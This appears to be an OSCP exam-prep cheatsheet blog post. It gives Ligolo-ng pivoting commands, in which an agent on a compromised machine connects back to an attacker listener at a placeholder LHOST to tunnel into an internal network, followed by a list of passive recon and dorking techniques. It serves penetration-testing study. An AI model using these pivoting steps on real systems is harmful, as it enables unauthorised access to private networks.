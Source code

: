 ```yaml
---
title: Notes from the Internet
date: 2024-10-23 10:50:00
categories: [Certifications, Security, Cheatsheet]
tags: [OSCP]     # TAG names should always be lowercase
description: Random list of helpful tricks to aid in exam prep.
---
```


## Ligolo-ng

```powershell
#Creating interface and starting it.
sudo ip tuntap add user $(whoami) mode tun ligolo
sudo ip link set ligolo up

#Kali machine - Attacker machine
./proxy -laddr 0.0.0.0:9001 -selfcert

#windows or linux machine - compromised machine
agent.exe -connect <LHOST>:9001 -ignore-cert

#In Ligolo-ng console
session #select host
ifconfig #Notedown the internal network's subnet
start #after adding relevent subnet to ligolo interface

#Adding subnet to ligolo interface - Kali linux
sudo ip r add <subnet> dev ligolo

```

---

# Recon and Enumeration

- OSINT OR Passive Recon
    
    <aside>
    💡 Not that useful for OSCP as we’ll be dealing with internal machines
    
    </aside>
    
    - whois: `whois <domain>` or `whois <domain> -h <IP>`
    - Google Dorking,
        - site
        - filetype
        - intitle
        - GHDB - Google hacking database
    - OS and Service Information using [searchdns.netcraft.com](https://searchdns.netcraft.com)
    - Github Dorking
        - filename
        - user
        - A tool called Gitleaks for automated enumeration
    - Shodan dorks
        - hostname
        - port
        - Then gather information by going through the options
    - Scanning Security headers and SSL/TLS using [https://securityheaders.com/](https://securityheaders.com/)